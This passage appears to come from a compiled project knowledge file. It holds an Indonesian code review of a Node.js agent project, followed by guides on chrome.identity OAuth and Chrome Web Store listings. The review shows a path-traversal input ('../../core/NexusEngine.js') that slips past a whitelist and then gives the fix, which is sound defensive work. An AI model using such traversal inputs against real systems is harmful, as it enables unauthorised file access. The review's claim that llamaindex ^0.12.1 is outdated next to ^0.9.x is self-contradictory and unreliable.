└── docker-compose.yml        # ✅ env_file + healthcheck ditambahkan
```

---

## 2. TEMUAN UTAMA

### ✅ Perbaikan Signifikan dari Versi Sebelumnya (Apresiasi)

| # | Yang Diperbaiki | Dampak |
|---|---|---|
| ✅ | `NexusEngine.js`: 1317 → 384 baris, dipecah ke `phases/` | Maintainability sangat meningkat |
| ✅ | `SandboxExecutor`: Kini menggunakan Worker Thread nyata | Security isolation terpenuhi |
| ✅ | `shell: true` → `shell: false` di cli.js dan NexusEngine | Shell injection ditutup |
| ✅ | `initRedis()` punya try-catch + graceful degradation | Crash diam-diam dicegah |
| ✅ | `Logger.js` → NDJSON append mode | Performa I/O meningkat signifikan |
| ✅ | `package-lock.json` tersedia | CI/CD `npm ci` sekarang bisa jalan |
| ✅ | `ci.yml` baru untuk push/PR trigger | Development sehari-hari terlindungi |
| ✅ | `npm run lint` ditambahkan ke `package.json` | Code quality terjaga |
| ✅ | `ESLint` + `eslint-config-standard` diinstall | Standar kode konsisten |
| ✅ | `docker-compose.yml` → `env_file` + `healthcheck` | Production-grade deployment |
| ✅ | `Dockerfile` label versi sinkron (3.3.0) | Tidak ada ambiguitas versi |
| ✅ | `config/.env.example` lengkap | Dokumentasi environment jelas |
| ✅ | `.env` tidak di-track Git | Secret exposure dicegah |
| ✅ | Port dinamis `getAvailablePort()` di `cleanCodeAndVerify()` | Konflik port dicegah |
| ✅ | `ParallelRunner` dengan `p-limit` | Concurrency terkontrol |
| ✅ | `DecisionEngine` dengan weight profiles | AI conflict resolution mature |
| ✅ | `EvolutionPiper` dengan hard guardrails (25 cycles, 2 jam) | Runaway execution dicegah |
| ✅ | `Machinist` dengan path whitelist + forbidden imports | Plugin forge lebih aman |
| ✅ | `ResourceMonitor` CPU dua-snapshot method | CPU measurement akurat |

---

### 🔴 Temuan Kritis (Masih Ada)

1. **`NEXUS_PUBLIC_DISTRIBUTION` versi tidak sinkron** — versi `3.0.0` sementara main `3.3.0`
2. **`ci.yml` Lint step tidak memblokir** — `|| echo "Lint script not yet defined"` artinya lint gagal pun CI tetap hijau
3. **`.env` masih berisi path hardcoded Windows** — `PROJECT_PATH=c:\Users\ACER\Desktop\NEXUS AI`

### 🟠 Temuan Penting

4. **`llamaindex ^0.12.1` terlalu lama** — versi terbaru adalah `^0.9.x` untuk LlamaIndex.TS, ada risiko breaking change
5. **`glob ^8.1.0` deprecated** — sudah ada `fast-glob ^3.3.3` di dependencies, tapi `glob` lama masih ada (duplikasi)
6. **`npm-publish.yml` tidak menggunakan cache npm** — lebih lambat dari `ci.yml` yang sudah pakai cache
7. **`SandboxExecutor` menggunakan `eval: true`** — Worker Thread dengan kode inline adalah vektor injection

### 🟡 Perlu Perhatian

8. **`NativeBridge.js` mengasumsikan Windows** — path `.exe` hardcoded, tidak cross-platform
9. **`ci.yml` tidak ada code coverage** — test jalan tapi tidak ada metrics coverage
10. **`NEXUS_PUBLIC_DISTRIBUTION` tidak punya `package-lock.json`** — distribusi tidak reproducible

---

## 3. REVIEW KODE

### 3.1 `NexusEngine.js` — ✅ Transformasi Luar Biasa

Dari 1317 baris menjadi **384 baris** — ini adalah perbaikan terbesar dan paling impactful. NexusEngine sekarang murni bertindak sebagai orchestrator:

```javascript
// ✅ Pola yang sangat bersih — NexusEngine hanya delegasi
async audit(targetPath = this.rootPath, options = {}) {
    return await this.auditPhase.run({ targetPath, ...options });
}
async plan(auditReport) {
    return await this.planningPhase.run(auditReport);
}
async execute(plan) {
    return await this.executionPhase.run(plan);
}
```

**Kekuatan:** Setiap phase bisa di-test dan di-maintain secara independen.

**Satu Catatan:** NexusEngine masih punya 37 `require()` di top-level yang membuat file terlihat padat di bagian atas. Pertimbangkan lazy loading untuk module yang jarang dipakai.

---

### 3.2 `SandboxExecutor.js` — ✅ Sudah Benar, Satu Catatan

Worker Thread sekarang nyata dan terpisah dari proses utama. Ini perbaikan security yang sangat signifikan.

**Catatan — `eval: true` masih berisiko:**
```javascript
const worker = new Worker(`
    const { workerData, parentPort } = require('worker_threads');
    // ... kode sebagai string
`, { eval: true, workerData: { pluginPath, args } });
```

Kode Worker sebagai string dengan `eval: true` tetap membuka vektor injection jika `pluginPath` atau `args` bisa dimanipulasi. Solusi yang lebih aman:

```javascript
// ✅ Buat file worker terpisah: agent/core/workers/plugin-worker.js
const worker = new Worker(
    path.join(__dirname, 'workers', 'plugin-worker.js'),
    { workerData: { pluginPath, args } }
);
// Hapus eval: true sama sekali
```

---

### 3.3 `DecisionEngine.js` — ✅ Solid

Weight profiles per context (`saas`, `security`, `performance`, `refactor`, dll.) adalah pattern yang sangat matang untuk AI decision making. Fallback ke `default` profile dengan warning yang jelas juga baik.

**Satu Peningkatan:** Tambahkan validasi bahwa semua `opt.scores` memiliki semua kriteria yang dibutuhkan:

```javascript
// ✅ Tambahkan validasi scores
const ranked = options.map(opt => {
    let totalScore = 0;
    for (const criteria in weights) {
        const score = opt.scores?.[criteria];
        if (score === undefined) {
            console.warn(`⚠️ DecisionEngine: option "${opt.id}" missing score for "${criteria}". Defaulting to 0.`);
        }
        totalScore += (score || 0) * weights[criteria];
    }
    return { ...opt, final_score: parseFloat(totalScore.toFixed(4)), context_used: context };
});
```

---

### 3.4 `EvolutionPiper.js` — ✅ Guardrails yang Baik

Hard limit 25 cycles dan 120 menit adalah keputusan engineering yang tepat untuk mencegah infinite loop dan resource exhaustion.

**Satu Masalah:** `currentCycle` disimpan di memori instance — jika process crash dan restart, counter reset ke 0. Untuk true safety boundary, counter harus persisted:

```javascript
// ✅ Persist ke file
async checkEvolutionBoundary() {
    const stateFile = path.join(this.rootPath, 'memory/operational/evolution_state.json');
    let state = { currentCycle: 0, sessionStart: Date.now() };
    
    try {
        if (await fs.pathExists(stateFile)) {
            state = await fs.readJson(stateFile);
        }
    } catch (_) {}

    if (state.currentCycle >= this.MAX_EVOLUTION_CYCLES) {
        throw new Error(`🚧 EVOLUTION BOUNDARY: Max ${this.MAX_EVOLUTION_CYCLES} cycles reached.`);
    }
    
    state.currentCycle++;
    await fs.writeJson(stateFile, state);
}
```

---

### 3.5 `Machinist.js` — ✅ Security Guardrails Baik

Path whitelist + blacklist + forbidden import check adalah layer defense yang solid. `FORGE_FORBIDDEN_PATHS` mencakup semua area kritikal.

**Satu Celah:** Validasi hanya cek `startsWith` — path traversal seperti `agent/tools/scanners/../../core/NexusEngine.js` bisa lolos:

```javascript
// ❌ Celah path traversal
const normalizedPath = outputPath.replace(/\\/g, '/');
const isAllowed = FORGE_ALLOWED_PATHS.some(p => normalizedPath.startsWith(p));

// ✅ Perbaikan — resolve dan normalize dulu
const resolvedPath = path.resolve(this.rootPath, outputPath);
const normalizedRelative = path.relative(this.rootPath, resolvedPath).replace(/\\/g, '/');
// Lanjutkan validasi dengan normalizedRelative
```

---

### 3.6 `NativeBridge.js` — Platform-Specific tanpa Guard

```javascript
// ❌ Hardcoded .exe — hanya Windows
const fullPath = path.join(this.binPath, 
    binaryName.endsWith('.exe') ? binaryName : `${binaryName}.exe`
);
```

Ini akan gagal di Linux (Docker container yang pakai `node:22-alpine`).

```javascript
// ✅ Cross-platform
const isWindows = process.platform === 'win32';
const binaryFile = isWindows 
    ? (binaryName.endsWith('.exe') ? binaryName : `${binaryName}.exe`)
    : binaryName;
const fullPath = path.join(this.binPath, binaryFile);
```

---

### 3.7 `ResourceMonitor.js` — ✅ Excellent

Two-snapshot CPU measurement adalah implementasi yang benar dan jarang dilihat di project Node.js. Fix dari "CPU always 0%" dengan delta method menunjukkan debugging mendalam.

---

### 3.8 `Logger.js` — ✅ NDJSON Append Mode

Perbaikan dari read-rewrite ke append mode sudah benar. Sekarang performa I/O jauh lebih baik.

**Tambahan kecil:** Queue-based write (`_writeQueue`) sudah ada di constructor tapi tidak digunakan dalam implementasi `log()`. Jika konkurensi tinggi, ini bisa menyebabkan file corruption:

```javascript
// ✅ Gunakan queue yang sudah disiapkan
async log(category, level, ...) {
    // ...
    this._writeQueue = this._writeQueue.then(() =>
        fs.appendFile(logFile, JSON.stringify(logEntry) + '\n')
    );
    return this._writeQueue;
}
```

---

### 3.9 `ParallelRunner.js` — ✅ Solid dan Ringkas

21 baris yang melakukan satu hal dengan baik. `p-limit` adalah library yang tepat untuk ini.

---

## 4. REVIEW PIPELINE

### 4.1 `ci.yml` — ✅ Jauh Lebih Baik, Satu Bug Kritis

```yaml
- name: Run Lint
  run: npm run lint || echo "Lint script not yet defined"  # ❌ BUG
```

`|| echo` ini artinya: **jika lint gagal, CI tetap hijau**. Ini mengalahkan seluruh tujuan lint di CI.

```yaml
# ✅ Perbaikan — hapus fallback echo
- name: Run Lint
  run: npm run lint
```

Karena `npm run lint` sudah didefinisikan di `package.json`, fallback tidak diperlukan lagi.

### 4.2 `npm-publish.yml` — Perlu Update Minor

```yaml
# ❌ Tidak ada cache npm (berbeda dengan ci.yml yang sudah pakai cache)
- uses: actions/setup-node@v4
  with:
    node-version: 20
    # cache: 'npm' ← hilang

# ❌ Duplikasi — npm ci dijalankan 2x (build + publish-npm)
```

Saran: Gunakan artifact sharing antar job, atau gabungkan menjadi satu job dengan conditional publish.

### 4.3 Docker — ✅ Sudah Production-Grade

`env_file`, `healthcheck`, `restart: unless-stopped`, dan volume mounting sudah benar. Dockerfile juga sudah menggunakan `COPY package*.json ./` sebelum `COPY . .` untuk layer caching yang efisien.

**Satu Tambahan:** Tambahkan network isolation:

```yaml
# ✅ Tambahkan ke docker-compose.yml
networks:
  nexus-internal:
    driver: bridge

services:
  nexus-ai:
    networks:
      - nexus-internal
```

---

## 5. SECURITY & PERFORMANCE CHECK

### Security

| # | Severity | Lokasi | Status | Deskripsi |
|---|---|---|---|---|
| S1 | 🔴 CRITICAL | `SandboxExecutor.js` | ⚠️ Partial | `eval: true` pada Worker — perlu file worker terpisah |
| S2 | 🔴 CRITICAL | `Machinist.js` | ⚠️ Partial | Path traversal `../../` bisa bypass whitelist |
| S3 | 🟠 HIGH | `.env` | ⚠️ Remaining | Path Windows hardcoded masih ada |
| S4 | 🟠 HIGH | `ci.yml` | ⚠️ Bug | Lint failure tidak memblokir CI |
| S5 | 🟡 MEDIUM | `NativeBridge.js` | ❌ Baru | `.exe` hardcoded, gagal di Linux/Docker |
| S6 | 🟡 MEDIUM | `NEXUS_PUBLIC_DIST` | ❌ Baru | Versi 3.0.0 tapi kode mungkin sudah 3.3.0 |

### Performance

| # | Severity | Lokasi | Status | Deskripsi |
|---|---|---|---|---|
| P1 | ✅ FIXED | `Logger.js` | Resolved | NDJSON append — tidak ada lagi read-rewrite |
| P2 | ✅ FIXED | `cleanCodeAndVerify()` | Resolved | Port dinamis, `shell: false` |
| P3 | ✅ NEW | `ParallelRunner.js` | Resolved | `p-limit` untuk concurrency control |
| P4 | 🟡 MEDIUM | `NexusEngine.js` | Remaining | 37 `require()` di top-level — pertimbangkan lazy load |
| P5 | 🟡 MEDIUM | `SemanticEngine.js` | Remaining | `buildIndex()` masih load semua file ke RAM |
| P6 | 🟡 LOW | `glob ^8.1.0` | Duplikasi | `fast-glob` sudah ada — hapus `glob` lama |

---

## 6. SARAN PERBAIKAN PRIORITAS TINGGI

### P1: Perbaiki CI Lint — Hapus `|| echo`

**File:** `.github/workflows/ci.yml`

```yaml
# SEBELUM (❌ — lint failure tidak terdeteksi)
run: npm run lint || echo "Lint script not yet defined"

# SESUDAH (✅)
- name: Run Lint
  run: npm run lint
```

**Estimasi:** 2 menit.

---

### P2: Perbaiki Path Traversal di `Machinist.js`

**File:** `agent/core/Machinist.js`

```javascript
// SEBELUM (❌)
_validateForgePath(outputPath) {
    const normalizedPath = outputPath.replace(/\\/g, '/');
    const isAllowed = FORGE_ALLOWED_PATHS.some(p => normalizedPath.startsWith(p));

// SESUDAH (✅)
_validateForgePath(outputPath) {
    // Resolve absolute path dulu untuk mencegah ../../ traversal
    const absoluteResolved = path.resolve(this.rootPath, outputPath);
    const normalizedPath = path.relative(this.rootPath, absoluteResolved)
                               .replace(/\\/g, '/');

    // Pastikan tidak keluar dari rootPath
    if (normalizedPath.startsWith('..')) {
        throw new Error(`Machinist: Path traversal detected: ${outputPath}`);
    }

    const isAllowed = FORGE_ALLOWED_PATHS.some(p => normalizedPath.startsWith(p));
    const isForbidden = FORGE_FORBIDDEN_PATHS.some(p => normalizedPath.startsWith(p));
    // ... sisa logika sama
}
```

---

### P3: Ganti Worker `eval: true` dengan File Terpisah

**File:** `agent/core/SandboxExecutor.js` + buat file baru

Buat file baru: `agent/core/workers/plugin-worker.js`:
```javascript
const { workerData, parentPort } = require('worker_threads');

async function run() {
    try {
        const plugin = require(workerData.pluginPath);
        const action = plugin.scan || plugin.execute;
        if (typeof action !== 'function') {
            throw new Error('Plugin must export a scan() or execute() function.');
        }
        const result = await Promise.resolve(action(workerData.args));
        parentPort.postMessage({ ok: true, result });
    } catch (err) {
        parentPort.postMessage({ ok: false, error: err.message });
    }
}
run();
```

Lalu di `SandboxExecutor.js`:
```javascript
// SEBELUM (❌ — eval: true)
const worker = new Worker(`...kode inline...`, { eval: true, workerData: { pluginPath, args } });

// SESUDAH (✅)
const workerPath = path.join(__dirname, 'workers', 'plugin-worker.js');
const worker = new Worker(workerPath, { workerData: { pluginPath, args } });
```

---

### P4: Perbaiki `NativeBridge.js` untuk Cross-Platform

```javascript
// SEBELUM (❌)
const fullPath = path.join(this.binPath, binaryName.endsWith('.exe') ? binaryName : `${binaryName}.exe`);

// SESUDAH (✅)
const isWindows = process.platform === 'win32';
const binaryFile = isWindows 
    ? (binaryName.endsWith('.exe') ? binaryName : `${binaryName}.exe`)
    : binaryName;
const fullPath = path.join(this.binPath, binaryFile);
```

---

### P5: Sinkronkan Versi `NEXUS_PUBLIC_DISTRIBUTION`

```bash
# Update package.json di NEXUS_PUBLIC_DISTRIBUTION
# Ganti "version": "3.0.0" → "version": "3.3.0"
```

Dan tambahkan script untuk auto-sync versi di `package.json` root:
```json
"scripts": {
    "sync-version": "node -e \"const p=require('./package.json'); const pp=require('./NEXUS_PUBLIC_DISTRIBUTION/package.json'); pp.version=p.version; require('fs').writeFileSync('./NEXUS_PUBLIC_DISTRIBUTION/package.json', JSON.stringify(pp,null,2))\""
}
```

---

## 7. SARAN PERBAIKAN PRIORITAS MENENGAH

### M1: Persist `EvolutionPiper` State ke File

Agar hard limit 25 cycles benar-benar tidak bisa di-bypass dengan restart:

```javascript
// Simpan state ke: memory/operational/evolution_state.json
async checkEvolutionBoundary() {
    const stateFile = path.join(this.rootPath, 'memory/operational/evolution_state.json');
    let state = { currentCycle: 0, sessionStart: Date.now() };
    try {
        if (await fs.pathExists(stateFile)) state = await fs.readJson(stateFile);
    } catch (_) {}
    
    if (state.currentCycle >= this.MAX_EVOLUTION_CYCLES) {
        throw new Error(`🚧 BOUNDARY: Max ${this.MAX_EVOLUTION_CYCLES} cycles. Run 'nexus distill' first.`);
    }
    
    state.currentCycle++;
    await fs.writeJson(stateFile, state);
    this.currentCycle = state.currentCycle;
}
```

### M2: Gunakan Logger Queue untuk Concurrent Write Safety

```javascript
async log(category, level, agent, task_id, event, message, duration_ms = 0, metadata = {}, trace_id = 'N/A') {
    // ...validasi...
    this._writeQueue = this._writeQueue.then(async () => {
        try {
            await fs.ensureDir(logDir);
            await fs.appendFile(logFile, JSON.stringify(logEntry) + '\n');
        } catch (e) {
            console.error(`Logger Failed: ${e.message}`);
        }
    });
    return this._writeQueue;
}
```

### M3: Hapus `glob ^8.1.0` — Gunakan `fast-glob` Saja

Kedua library ada sekarang, tapi `glob ^8.1.0` deprecated dan `fast-glob` jauh lebih cepat:

```bash
npm uninstall glob
```

Lalu ganti semua `require('glob')` dengan `require('fast-glob')` di seluruh codebase:
```bash
grep -rn "require('glob')" agent/ tests/ --include="*.js"
```

### M4: Tambahkan npm Cache ke `npm-publish.yml`

```yaml
- uses: actions/setup-node@v4
  with:
    node-version: 20
    cache: 'npm'              # ← Tambahkan ini
    registry-url: https://registry.npmjs.org/
```

### M5: Tambahkan Network Isolation ke `docker-compose.yml`

```yaml
networks:
  nexus-internal:
    driver: bridge

services:
  nexus-ai:
    networks:
      - nexus-internal
  redis:
    networks:
      - nexus-internal
```

### M6: Tambahkan DecisionEngine Score Validation

```javascript
// Di DecisionEngine.resolve()
const ranked = options.map(opt => {
    let totalScore = 0;
    for (const criteria in weights) {
        if (opt.scores?.[criteria] === undefined) {
            console.warn(`⚠️ DecisionEngine: "${opt.id}" missing score for "${criteria}"`);
        }
        totalScore += (opt.scores?.[criteria] || 0) * weights[criteria];
    }
    return { ...opt, final_score: parseFloat(totalScore.toFixed(4)) };
});
```

---

## 8. SARAN PERBAIKAN JANGKA PANJANG

### L1: Migrasi Test ke Jest

Custom runner masih dipakai. Jest akan memberikan:
- Coverage report otomatis
- Watch mode untuk TDD
- Snapshot testing
- Integrasi CI lebih baik

```bash
npm install --save-dev jest
```

Tambah ke `ci.yml`:
```yaml
- name: Run Tests with Coverage
  run: npx jest --coverage
```

### L2: Upgrade `llamaindex` ke Versi Stabil Terbaru

`llamaindex ^0.12.1` perlu diverifikasi kompatibilitasnya dengan Node.js 22:
```bash
npm outdated llamaindex
npm install llamaindex@latest
```

### L3: Implementasi API Rate Limiting di `LocalIntelligence`

Jika Ollama diakses paralel oleh banyak agent sekaligus via `ParallelRunner`, bisa terjadi request flood. Tambahkan rate limiter di `LocalIntelligence`:

```javascript
const pLimit = require('p-limit');
const ollamaLimit = pLimit(2); // Max 2 concurrent Ollama requests

async generate(prompt, tag) {
    return ollamaLimit(() => this._doGenerate(prompt, tag));
}
```

### L4: Tambahkan `NEXUS_PUBLIC_DISTRIBUTION` ke CI

Distribusi publik juga perlu ditest:
```yaml
- name: Test Public Distribution
  run: cd NEXUS_PUBLIC_DISTRIBUTION && npm ci && npm test
```

### L5: Implementasi OpenTelemetry untuk Distributed Tracing

`currentCorrelationId` sudah ada — ini adalah fondasi yang baik. Langkah selanjutnya: integrasikan dengan OpenTelemetry untuk tracing yang bisa divisualisasi di Grafana/Jaeger.

### L6: Buat `package-lock.json` untuk `NEXUS_PUBLIC_DISTRIBUTION`

```bash
cd NEXUS_PUBLIC_DISTRIBUTION
npm install
git add package-lock.json
```

---

## 9. CHECKLIST TINDAKAN YANG BISA LANGSUNG DIKERJAKAN

### ⚡ Hari Ini (< 30 menit total)

- [ ] **Hapus `|| echo`** di `ci.yml` baris 28 — 2 menit
- [ ] **Sinkronkan versi** `NEXUS_PUBLIC_DISTRIBUTION/package.json` dari `3.0.0` → `3.3.0` — 1 menit
- [ ] **Bersihkan `.env`** — ubah `PROJECT_PATH=c:\Users\ACER\Desktop\NEXUS AI` → `PROJECT_PATH=./` — 1 menit
- [ ] **Hapus `glob ^8.1.0`** dari `package.json` karena sudah ada `fast-glob` — 5 menit
- [ ] **Tambah `cache: 'npm'`** di `npm-publish.yml` — 1 menit

### 🔧 Sprint Ini (< 1 hari kerja)

- [ ] **Buat `agent/core/workers/plugin-worker.js`** dan hapus `eval: true` dari SandboxExecutor
- [ ] **Perbaiki path traversal** di `Machinist._validateForgePath()`
- [ ] **Perbaiki `NativeBridge.js`** untuk cross-platform (hapus `.exe` hardcoded)
- [ ] **Implementasi Logger queue** untuk concurrent write safety
- [ ] **Tambahkan network isolation** di `docker-compose.yml`
- [ ] **Tambahkan npm cache** di `npm-publish.yml`

### 📅 Sprint Berikutnya

- [ ] **Persist `EvolutionPiper` state** ke `memory/operational/evolution_state.json`
- [ ] **Tambahkan DecisionEngine score validation**
- [ ] **Buat `package-lock.json`** untuk `NEXUS_PUBLIC_DISTRIBUTION`
- [ ] **Verifikasi `llamaindex ^0.12.1`** kompatibilitas dengan Node.js 22
- [ ] **Migrasi ke Jest** sebagai test framework

---

## 10. KESIMPULAN SINGKAT

**Versi ini adalah lompatan besar.** Hampir semua temuan kritis dari review pertama sudah diselesaikan:

| Area | v3.3.0 (ZIP 1) | v3.3.0 (ZIP 2) |
|---|---|---|
| Shell Injection | 🔴 Ada | ✅ Diperbaiki |
| .env di Git | 🔴 Ada | ✅ Diperbaiki |
| SandboxExecutor | 🔴 Bukan sandbox | ✅ Worker Thread nyata |
| NexusEngine size | 🔴 1317 baris | ✅ 384 baris + phases |
| Logger I/O | 🟠 Read-rewrite | ✅ NDJSON append |
| CI/CD | 🟠 Hanya release | ✅ Push/PR + lint |
| package-lock.json | 🔴 Tidak ada | ✅ Ada |
| Graceful Redis | 🔴 Crash diam-diam | ✅ Graceful degradation |
| Port hardcoded | 🟠 8001 selalu | ✅ Dinamis |
| docker-compose | 🟠 Minimal | ✅ env_file + healthcheck |

**Sisa pekerjaan** adalah refinement dan hardening — bukan perbaikan fundamental. Project ini sudah dalam kondisi yang layak untuk production testing. Tiga hal yang paling penting untuk dikerjakan berikutnya, berurutan:

1. Fix `|| echo` di `ci.yml` — karena ini membuat seluruh CI security theater
2. Fix path traversal di `Machinist` — karena ini adalah celah keamanan nyata
3. Ganti `eval: true` di SandboxExecutor — untuk menutup vektor injection terakhir

---

*Review ini berbasis analisis statis kode. Asumsi: `tests/TDD/runner.js` dan `sandbox-master-runner.js` tidak berubah signifikan dari versi sebelumnya (belum di-extract untuk diverifikasi).*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, performance, tdd, vcs, saas, api]

### 📘 KNOWLEDGE: NEXUS_AUTH-IDENTITY.MD

# Authentication with chrome.identity
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

```json
{
  "permissions": ["identity"],
  "oauth2": {
    "client_id": "YOUR_CLIENT_ID.apps.googleusercontent.com",
    "scopes": [
      "https://www.googleapis.com/auth/userinfo.profile",
      "https://www.googleapis.com/auth/userinfo.email"
    ]
  }
}
```

## Getting an OAuth Token

```js
async function signIn() {
  return new Promise((resolve, reject) => {
    chrome.identity.getAuthToken({ interactive: true }, (token) => {
      if (chrome.runtime.lastError) {
        reject(new Error(chrome.runtime.lastError.message));
      } else {
        resolve(token);
      }
    });
  });
}
```

Or with the promise-based API (Chrome 116+):
```js
const { token } = await chrome.identity.getAuthToken({ interactive: true });
```

## Fetching User Profile

```js
async function getUserProfile(token) {
  const response = await fetch('https://www.googleapis.com/oauth2/v3/userinfo', {
    headers: { Authorization: `Bearer ${token}` }
  });
  if (!response.ok) throw new Error('Failed to fetch profile');
  return response.json();
  // Returns: { sub, name, given_name, family_name, picture, email, email_verified }
}
```

## Sign Out

```js
async function signOut(token) {
  // Remove cached token
  await chrome.identity.removeCachedAuthToken({ token });

  // Optionally revoke the token server-side
  await fetch(`https://accounts.google.com/o/oauth2/revoke?token=${token}`);
}
```

## Error Handling

```js
try {
  const { token } = await chrome.identity.getAuthToken({ interactive: true });
  const profile = await getUserProfile(token);
  displayProfile(profile);
} catch (err) {
  if (err.message.includes('canceled')) {
    showMessage('Sign-in was cancelled');
  } else if (err.message.includes('not granted')) {
    showMessage('Permission was denied');
  } else {
    showMessage('Sign-in failed: ' + err.message);
  }
}
```

## Setting Up Google Cloud Console

1. Go to console.cloud.google.com
2. Create a project (or select existing)
3. Enable "Google People API" or "Google OAuth2 API"
4. Create OAuth 2.0 credentials → Chrome Extension type
5. Set the Application ID to your extension's ID
6. Copy the client_id to your manifest.json

### Extension ID: Development vs Production

**This is critical and often missed.** The OAuth `client_id` is tied to a specific extension ID.
The extension ID changes depending on how you load the extension:

| Context | How ID is determined |
|---------|---------------------|
| Unpacked (development) | Derived from the extension's directory path — changes if you move the folder |
| Packed (.crx) | Derived from the private key used to pack |
| Chrome Web Store | Assigned by the store, permanent |

**To get a stable ID during development**, add a `"key"` field to your manifest.json.
This ensures the same extension ID regardless of directory path:

1. Pack your extension once (`chrome://extensions` → Pack Extension)
2. Open the generated `.crx` as a ZIP, extract the `key` from its manifest
3. Add that key to your development manifest:

```json
{
  "key": "MIIBIjANBgkqhk...your-public-key-here...",
  "manifest_version": 3,
  "name": "My Extension"
}
```

Alternatively, note your unpacked extension's ID from `chrome://extensions` and configure
the OAuth client for that specific ID. Just be aware it will change if the folder moves.

**Always tell users:** "After publishing to the Chrome Web Store, update your OAuth client
configuration with the store-assigned extension ID."

## Non-Google OAuth (launchWebAuthFlow)

For third-party OAuth providers (GitHub, Twitter, etc.):

```js
const redirectUrl = chrome.identity.getRedirectURL();
// Returns: https://<extension-id>.chromiumapp.org/

const authUrl = `https://github.com/login/oauth/authorize?client_id=XXX&redirect_uri=${redirectUrl}`;

const responseUrl = await chrome.identity.launchWebAuthFlow({
  url: authUrl,
  interactive: true
});

// Parse the token from responseUrl
const url = new URL(responseUrl);
const code = url.searchParams.get('code');
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, api]

### 📘 KNOWLEDGE: NEXUS_CHROMEWEBSTORE-TEMPLATE.MD

# CHROMEWEBSTORE.md Template
> **VERSION**: v2 | **Last Updated**: 26/05/2026


Copy this template into the project root as `CHROMEWEBSTORE.md` and fill in each section.
Fields marked `[REQUIRED]` must be completed before submission. Fields marked `[RECOMMENDED]`
are optional but improve listing quality and approval odds.

---

```markdown
# Chrome Web Store Listing — [Extension Name]

> Last Updated: YYYY-MM-DD

## Store Listing

**Extension Name** [REQUIRED]
<!-- Must match manifest.json "name". Max 75 characters. -->


**Short Description** [REQUIRED]
<!-- Max 132 characters. Shown in search results and tiles. Be specific about function. -->


**Detailed Description** [REQUIRED]
<!-- Max 16,000 characters. Structure recommendation:
     Line 1: One-sentence summary of what the extension does
     Paragraph 2: Key features (use line breaks, not bullet points — CWS strips markdown)
     Paragraph 3: How to use it (step-by-step)
     Paragraph 4: Privacy/permissions note (builds trust)
     Paragraph 5: Support/feedback info
-->


**Category** [REQUIRED]
<!-- Pick one: Accessibility, Blogging, Developer Tools, Fun, News & Weather,
     Photos, Productivity, Search Tools, Shopping, Social & Communication, Sports -->


**Single Purpose** [REQUIRED]
<!-- One sentence. Narrow and easy to understand.
     Good: "Highlights and saves text selections on web pages"
     Bad:  "Productivity tool that helps you work better" -->


**Primary Language** [REQUIRED]
<!-- e.g., English, German, etc. -->


## Graphics & Assets

| Asset | Dimensions | Status | Filename |
|-------|-----------|--------|----------|
| Store Icon [REQUIRED] | 128×128 PNG | ⬜ Not created | |
| Screenshot 1 [REQUIRED] | 1280×800 or 640×400 | ⬜ Not created | |
| Screenshot 2 [RECOMMENDED] | 1280×800 or 640×400 | ⬜ Not created | |
| Screenshot 3 [RECOMMENDED] | 1280×800 or 640×400 | ⬜ Not created | |
| Screenshot 4 | 1280×800 or 640×400 | ⬜ Not created | |
| Screenshot 5 | 1280×800 or 640×400 | ⬜ Not created | |
| Small Promo Tile [RECOMMENDED] | 440×280 | ⬜ Not created | |
| Marquee Promo Tile | 1400×560 | ⬜ Not created | |

<!-- Status options: ⬜ Not created | 🟡 Needs update | ✅ Ready -->

### Screenshot Notes
<!-- Describe what each screenshot should show. Good screenshots demonstrate the extension
     in action, not just the popup. Include annotations if helpful. -->


## Permissions Justification

<!-- Every permission in manifest.json needs a justification. The review team reads these.
     Be specific about WHY the permission is needed and WHAT user-facing feature uses it.
     "Required for functionality" will be rejected. -->

| Permission | Type | Justification |
|------------|------|---------------|
| | permissions | |
| | host_permissions | |

<!-- Type is either "permissions" or "host_permissions" -->


## Privacy & Data Use

<!-- These map to the CWS data use disclosure form. Be exhaustive and accurate —
     mismatches between what you declare and what the code does cause rejection. -->

### Data Collection

**Does the extension collect user data?** Yes / No

<!-- If Yes, fill in the table below. If No, skip to the certification. -->

| Data Type | Collected? | Transmitted Off-Device? | Purpose | Shared with Third Parties? |
|-----------|-----------|------------------------|---------|---------------------------|
| Personally identifiable info | | | | |
| Health info | | | | |
| Financial info | | | | |
| Authentication info | | | | |
| Personal communications | | | | |
| Location | | | | |
| Web history | | | | |
| User activity | | | | |
| Website content | | | | |

### Data Use Certification
<!-- Check all that apply: -->
- [ ] Data is NOT sold to third parties
- [ ] Data is NOT used for purposes unrelated to the extension's core functionality
- [ ] Data is NOT used for creditworthiness or lending purposes


## Privacy Policy

**Privacy Policy URL** [REQUIRED if collecting data, RECOMMENDED otherwise]


<!-- Host this at a publicly accessible URL. GitHub Pages, your website, or a
     Notion page all work. See references/webstore/[privacy-policy.md](../vcs/NEXUS_PRIVACY-POLICY.MD) for a template. -->


## Distribution

**Visibility**: Public / Unlisted / Private
**Regions**: All regions / [List specific regions]
**Pricing**: Free / Paid

<!-- Note: Paid extensions require a Google Payments merchant account and physical address. -->


## Developer Info

**Publisher Name** [REQUIRED]

**Contact Email** [REQUIRED]
<!-- Displayed publicly on the store listing. -->

**Support URL / Email** [RECOMMENDED]
<!-- Where users go for help. Can be a GitHub Issues page, email, or support site. -->

**Homepage URL** [RECOMMENDED]


## Version History

<!-- Add an entry for every version submitted to the Chrome Web Store.
     Most recent first. -->

| Version | Date | Changes | Status |
|---------|------|---------|--------|
| | | | Draft |

<!-- Status options: Draft | Submitted | In Review | Published | Rejected -->


## Review Notes

<!-- Track rejection reasons, communication with the review team, and fixes applied.
     This section is for your records, not published to the store. -->

### Known Issues / Limitations
<!-- Document anything reviewers might flag or users should know about. -->


### Rejection History
<!-- If applicable:
| Date | Reason | Fix Applied | Resubmitted |
|------|--------|-------------|-------------|
-->

```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux]

### 📘 KNOWLEDGE: NEXUS_CSS.MD

# CSS: Modern Architecture and Performance
> **VERSION**: v1 | **Last Updated**: 26/05/2026


These guidelines provide a high-density reference for writing maintainable, performant, and standard-compliant CSS.

1. [1. Foundations](#1-foundations)
2. [2. Inheritance and The Cascade](#2-inheritance-and-the-cascade)
3. [3. Selectors and scoping](#3-selectors-and-scoping)
   1. [Prefer CSS selectors over JS for complex element targeting](#prefer-css-selectors-over-js-for-complex-element-targeting)
